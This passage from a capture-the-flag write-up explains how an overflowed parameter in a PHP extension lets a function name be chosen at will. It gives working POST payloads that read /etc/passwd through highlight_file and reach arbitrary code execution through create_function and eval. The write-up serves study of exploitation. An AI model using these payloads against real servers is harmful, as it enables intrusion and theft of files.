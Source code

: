 Ok, so we can set the handler to an arbitrary value. Now this comes in handy
when the following code is executed:

{% highlight c %}
static PHP_FUNCTION(hastur_ia_ia)
{
    // .....
    MAKE_STD_ZVAL(handler_zval);
    MAKE_STD_ZVAL(name_zval);
    MAKE_STD_ZVAL(text_zval);
    ZVAL_STRING(handler_zval, handler, 1);
    ZVAL_STRING(name_zval, god_name, 1);
    params[0] = &text_zval;
    params[1] = &name_zval;

    // note: fill text value argument to hastur_ia_ia
    if (zend_parse_parameters(ZEND_NUM_ARGS() TSRMLS_CC, "s", &text, &text_len) == FAILURE) {
        RETURN_FALSE;
    }

    // ... text is transformed in an uninteresting way

    // note: This is basically call_user_function(handler, text, god_name)
    if (call_user_function_ex(EG(function_table), NULL, handler_zval,
                              &retval_ptr, 2, params, 0, NULL TSRMLS_CC) == SUCCESS) {
        // ...
    }
    // ...
{% endhighlight %}

So our overwritten handler string is used as a function name and called with
two arguments. We verify this is a Bad Thing™ by calling printf via the
following POST parameters:

    name=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaprintf&text=foo

And sure enough, the string "foo" appears in the response. Now what? After some
fiddling we figured out that we can read files with `highlight_file`:

    name=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaahighlight_file&text=/etc/passwd

But for some reason we could not read `/flag1` this way, which is weird. We did
not investigate this further because we wanted proper code execution anyways.
The payload we used to do that is the following:

    name=}echo 1;#aaaaaaaaaaaaaaaaaaaaaaacreate_function&text=

Basically this results in a call to `create_function('', '}echo 1;#aaa...')` and
broken as PHP is, this of course is equivalent to `eval('echo 1;')`...
Apparently `create_function` is implemented via `eval` by just creating
a function definition on the fly via string concatenation. So now we can do

    name=}eval($_POST[x]);#aaaaaaaaaaaaaaaaaaaaaaacreate_function&
    text=&
    x=echo 1;

And execute arbitrary PHP code. And for some reason we can now use
`echo file_get_contents('/flag1');` to read the `/flag1`. Milestone completed.
